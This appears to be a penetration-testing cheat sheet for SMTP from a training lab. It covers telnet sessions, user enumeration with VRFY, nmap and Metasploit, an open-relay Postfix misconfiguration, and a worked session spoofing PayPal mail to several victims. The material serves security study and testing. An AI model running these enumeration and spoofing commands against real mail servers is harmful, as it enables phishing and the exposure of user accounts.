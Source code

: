 Ports: 25, 587

Interacting SMTP
```bash
telnet 10.129.14.128 25

HELO mail1.inlanefreight.htb # Check if common-name is alive

EHLO <common-name> # Start communication 

MAIL FROM <email>
 
RCPT TO <recipient> 

DATA From: <cry0l1t3@inlanefreight.htb>
To: <mrb3n@inlanefreight.htb> 
Subject: DB 
Date: Tue, 28 Sept 2021 16:32:51 +0200 
Hey man, I am trying to access our XY-DB but the creds don't work. Did you make any changes there? . # . to end 

QUIT
```
Username Enumeration
- Doesn't always work, SMTP may issue 252 confirming existence of user that does not exist
```bash
VRFY <USERNAME>
```
(nmap) User Enumeration
```bash
nmap -p 25 10.129.201.239 --script smtp-enum-users --script-args smtp-enum-users.methods=VRFY,userdb=/usr/share/wordlist/usernames.txt
```
(MetaSploit) SMTP Version
```bash
auxiliary/scanner/smtp/smtp_version
```
(MetaSploit) User Enumeration
```bash
auxiliary/scanner/smtp/smtp_enum
```
### Open Relay Attack
Prevent email from being filtered by span, sender can use relay server that recipient trusts. However, administrators often have no overview of which IP ranges they are allowed, to prevent email from being blocked administrators often just allow all traffic.

Misconfiguration vulnerable to Open Relay Attacks, with this config attacks can also send fake emails.
```bash
# /etc/postfix/main.cf

mynetworks = 0.0.0.0/0
```
Spoofing Email Addresses
```bash
telnet 10.129.14.128 25

HELO attacker.com

MAIL FROM:<spoofed@paypal.com>
 
RCPT TO:<victim1@example.com>
RCPT TO:<victim2@example.com>
RCPT TO:<victim3@example.com>

DATA 
From: Paypal<spoofed@paypal.com> # MTA does not require authentication, so any email works
To: <victim@exmaple.com> 
Subject: DB 
Date: Tue, 28 Sept 2021 16:32:51 +0200 
Hey man, I am trying to access our XY-DB but the creds don't work. Did you make any changes there? . # . to end 

QUIT
```
(nmap) Scanning Open Relay
```bash
nmap 10.129.14.128 -p 25 --script smtp-open-relay -v
```
(mxtoolbox) Scanning Open Relay
https://mxtoolbox.com/diagnostic.aspx